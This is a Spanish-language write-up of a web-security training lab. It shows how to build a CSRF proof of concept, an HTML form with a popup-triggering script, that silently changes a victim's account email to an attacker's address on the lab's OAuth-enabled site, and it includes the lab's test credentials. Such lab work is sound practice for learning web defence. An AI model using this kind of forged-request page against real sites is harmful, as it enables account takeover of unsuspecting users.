 `TAREA:` La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Para solucionar este problema, realice un ataque CSRF que cambie la dirección de correo electrónico de la víctima. Debe usar el servidor de exploits proporcionado para alojar el ataque.

El laboratorio admite el inicio de sesión con OAuth. Puede iniciar sesión a través de su cuenta de redes sociales con las siguientes credenciales: `wiener:peter`

`NOTA:` - Los navegadores impiden que se abran las ventanas emergentes a menos que se activen mediante una interacción manual del usuario, como un clic. El usuario víctima hará clic en cualquier página a la que lo redirija, por lo que puede crear ventanas emergentes mediante un controlador de eventos global como se indica a continuación

```python
<script> 
	window.onclick = () => { 
		window.open('about:blank') 
	} 
</script>
```

iniciamos sesión en la web y de inmediato nos damos cuenta que nos esta haciendo una redirección hacia endpoints diferentes tenemos un botón de continuar que probablemente necesite una cookie. en este caso la de sesión
![[Pasted image 20250722103219.png]]

luego tenemos otro botón de continuar que probablemente contenga otra cookie. aquí lo esencial seria analizar ambas solicitudes e identificar si la cookie es diferente
![[Pasted image 20250722103359.png]]

realizamos una solicitud de cambio de correo y la interceptamos para enviarla al repeater 
![[Pasted image 20250722103605.png]]

cuando estamos en el repeater iniciamos un CSRF-POC
![[Pasted image 20250722103807.png]]

en este caso el history.pushState no lo necesitamos ya que esta vulnerabilidad por lógica del laboratorio se modifica para que sea una solicitud mas automatizada donde la victima debe hacer clic. pero en este caso debemos generar una ventana emergente con el código que nos proporcionaron. nos quedaría algo como esto:

```python
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a49006d035448148083fd090057002b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script> 
	window.onclick = () => { 
		window.open('about:blank') 
	} 
</script>
  </body>
</html>

```